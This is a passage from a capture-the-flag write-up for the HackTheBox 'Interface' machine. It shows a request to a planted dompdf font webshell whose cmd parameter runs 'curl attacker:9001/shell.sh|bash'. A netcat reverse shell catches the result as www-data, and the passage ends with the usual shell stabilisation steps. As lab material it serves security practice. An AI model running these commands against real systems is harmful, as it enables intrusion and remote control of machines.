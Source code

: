 So we will execute a curl to retrieve this information through RCE and the pipe a Bash to it to execute it.

First we start a listener locally:

```bash
❯ nc -lvnp 4444                             
listening on [any] 4444 ...
```

```bash
❯ curl "http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/exploitfont_normal_05eee38048064022101b29bc7ca64806.php?cmd=curl+10.10.X.X:9001/shell.sh|bash" --output -
```

And in our listener we get a shell as `www-data`.

```bash
❯ nc -lvnp 4444                             
listening on [any] 4444 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.11.200] 47828
bash: cannot set terminal process group (1369): Inappropriate ioctl for device
bash: no job control in this shell
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$
```

### (Optional) Shell stabilization

We can stabilize our shell with 3 simple steps: 

1. Bash process creation
2. STTY stab
3. Xterm resetting

```bash
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ script /dev/null -c bash
<CTRL+Z>

❯ stty raw -echo;fg          
[1]  + 44802 continued  nc -lvnp 4444

www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ export TERM=xterm
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ reset xterm
```

We should also configure the rows and columns of our terminal emulator with `stty`

Locally we check our rows and columns:

```bash
❯ stty size        
53 231
```

In our reverse shell we configure exactly those rows and columns:

```bash
www-data@interface:~/api/vendor/dompdf/dompdf/lib/fonts$ stty rows 53 columns 231
```

---